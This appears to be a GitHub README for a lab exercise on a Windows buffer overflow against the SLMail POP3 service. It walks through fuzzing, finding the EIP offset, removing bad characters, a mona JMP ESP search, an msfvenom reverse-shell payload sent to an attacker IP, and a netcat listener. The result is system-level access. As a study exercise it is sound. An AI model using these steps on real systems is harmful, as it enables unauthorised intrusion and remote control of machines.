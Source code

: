# Windows Buffer Overflow

## Objective:
This project is centered on understanding and executing a Windows buffer overflow. By targeting a specific Windows virtual machine, the project aimed to shed light on the intricacies of buffer overflow vulnerabilities in a Windows environment, emphasizing the steps and tools necessary to exploit such flaws. The key objectives of the project are detailed below:
- **Manual Buffer Overflow:** Engaging in a step-by-step process to perform a buffer overflow against a Windows target, understanding the specific conditions and elements that lead to successful exploitation.
- **Immunity Debugger Integration:** Leveraging the Immunity Debugger to trace and understand the buffer overflow process in real time. This involved attaching specific processes to the debugger and observing program behavior during exploitation attempts.
- **Character Testing and EIP Control:** Using a fuzzer script to determine the exact point of EIP overwrite, followed by a systematic approach to identifying and removing bad characters to ensure the crafted payload's effectiveness.
- **Payload Crafting and Exploitation:** Utilizing MSFvenom to generate a specific payload, followed by setting breakpoints and adjusting scripts to gain control over the program's execution. Successfully exploiting the vulnerability led to obtaining a reverse shell on the target machine.

## Walkthrough:

- Initialized the BOF machine, accessed the command prompt as an administrator, and ran “slmgr /rearm” and “ipconfig” to determine the machine's IP address as “10.0.2.10”.

- Installed “12f1ab027e5374587e7e998c00682c5d-SLMail55_4433.exe” on the Windows VM, rebooted it, and created a desktop shortcut for “SLmail.cpl”.

- Opened both “SLmail.cpl” & “Immunity debugger” with administrative rights.

- In “Immunity debugger”, attached the “SLmail.exe” file and ensured it's actively running.

- On my Kali machine, downloaded the fuzzer script labeled “fuzzerScript.py” and stored it in a “BOF” folder on my desktop.

- In the same folder, created and edited a file named “fuzzy.py”. Line 13 requires the target IP address and port number.

- Conducted an nmap scan on the target VM to confirm open ports and noted the active “pop3” protocol.

-  Updated “fuzzy.py” with the target IP address and port, then saved changes.

- Navigated to the BOF directory and executed the “fuzzy.py” script using the “python2 fuzzy.py” command.

- Observed the EIP update to “41414141” in Immunity debugger.

- Generated an MSF pattern of 3000 bytes using the “msf-pattern_create -l 3000” command to pinpoint control flow locations.

- Updated the “fuzzy.py” script's buffer with the generated MSF pattern and removed unnecessary loops.

- Reset SLmail.cpl and the Immunity debugger, re-executed the “fuzzy.py” script, and noted the updated EIP value in Immunity debugger.

- Determined the exact memory offset using the “msf-pattern_offset -l 3000 -q 39694438” command.

- Validated the offset by adjusting the buffer in “fuzzy.py” and observing the Immunity debugger's EIP value.

- Incorporated a list of potential bad characters into the “fuzzy.py” buffer to refine the exploit.

- Re-executed the adjusted “fuzzy.py” script and followed the ESP in dump within Immunity debugger to identify and remove any bad characters.

XVIII-XIX. Iteratively refined the “fuzzy.py” script, removing bad characters each time based on Immunity debugger's feedback.

XX. Searched for mona modules using the “!mona modules” command and identified a suitable dll with “!mona find -s "\xff\xe4" -m SLMFC.DLL”.

XXI. Crafted a shell code using the “msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=10.0.2.6 -f c -b "\x00\x0a\x0d"” command.

XXII. Integrated the shell code into “fuzzy.py” and adjusted the buffer accordingly.

XXIII. Established a netcat listener on the Kali machine using “nc -lvp 4444”.

XXIV. Restarted SLmail, ran the “fuzzy.py” script, and achieved system access with highest-level permissions as confirmed by the “whoami” command.
